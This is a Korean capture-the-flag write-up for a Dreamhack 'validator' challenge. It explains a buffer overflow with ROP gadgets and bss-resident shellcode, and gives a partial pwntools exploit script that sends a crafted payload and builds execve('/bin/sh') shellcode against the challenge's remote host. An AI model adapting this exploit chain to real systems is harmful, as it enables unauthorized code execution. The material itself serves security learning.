 앞에서도 계속 설명했지만 `5.4.0` 이전의 커널 버전에서만, 이번 바이너리에서처럼 **NX Bit**가 비활성화된 경우 읽기 권한이 존재하는 `bss` 영역에 실행 권한이 존재하여 **Shellcode execute**가 가능하다.

ROP 가젯은 `pwntools`의 `find_gadget()` 함수를 쓰거나, 쉘에서 아래의 명령어로 구할 수 있다.

```sh
ROPgadget --binary validator_dist | grep 'pop rdi'
```

`bss` 영역의 주소는 **PIE**가 적용되어 있지 않기 때문에 `elf.bss()`를 통해 구할 수 있고, `shellcode`는 `shellcraft.execve("/bin/sh", 0, 0)` 또는 `shellcraft.sh()`을 사용하면 된다.

그리고 `shellcraft`는 쉘 코드에 해당하는 어셈블리 코드를 문자열로 리턴하기 때문에, `asm` 함수를 통해 해당 어셈블리 코드를 머신 코드로 변환한 바이트 문자열로 변환해서 전달해야 한다.

<img width="1207" alt="image" src="https://github.com/user-attachments/assets/84fd2394-beb5-4a27-a7b1-9cf7f23efe11">

그럼 이제, **BOF** 취약점을 통해 가능한 **RAO** 공격과 **ROP 가젯**을 통해, 아래의 `read` 함수를 실행하도록 하고, `bss` 영역에 `shellcode`를 대입해준 후 `bss` 영역으로 이동하면 쉘코드가 실행될 것이다.

```c
read(0, bss, len(shellcode))
```

전체 Exploit 코드는 아래와 같으며, `p.send()`를 보내기 전에 `sleep(0.5)`로 텀을 두지 않으면 쉘이 바로 종료되는 오류가 발생해서 이 부분을 주의하자.

```py
from pwn import *

context.arch = "amd64"

p = remote('host3.dreamhack.games', 9820)
elf = ELF('./validator_server')
r = ROP(elf)


# [1] validate

payload = b"DREAMHACK!"  # index : 0 ~ 9
payload += b'A'          # index : 10

# index : 11 ~ 128 (s[128]에도 대입해줘야 s[127]의 비교에서 exit가 발생하지 않음)
for i in range(127, 9, -1):   # 127 ~ 10 까지 -1씩 감소시키며 (char 범위는 -128 ~ 127 이므로, 범위를 127부터 해줘야함)
    payload += bytes([i])     # 바이트 문자열로 변환
    # payload += p8(i)        # 이렇게 해도됨

payload += b'a' * 0x7         # SFP : 앞에서 SFP의 첫번째 바이트까지 넘어왔기 때문에 7바이트만 덮어야함

# index : 10 ~ 128 + SFP -> 총 126 바이트
# for i in range(126, 0, -1):  # 127 ~ 1 까지 -1씩 감소시키며
#     payload += bytes([i])     # 바이트 문자열로 변환
#     # payload += p8(i)        # 이렇게 해도됨

print(len(payload))

# [2] ROP
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_pop_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rdx = r.find_gadget(['pop rdx', 'ret'])[0]
# ret = r.find_gadget(['ret'])[0]

shellcode = asm(shellcraft.execve("/bin/sh", 0, 0))
# shellcode = asm(shellcraft.sh()) # 이것도 사용 가능
bss = elf.bss()

read_plt = elf.plt['read']

# payload += p64(ret)
```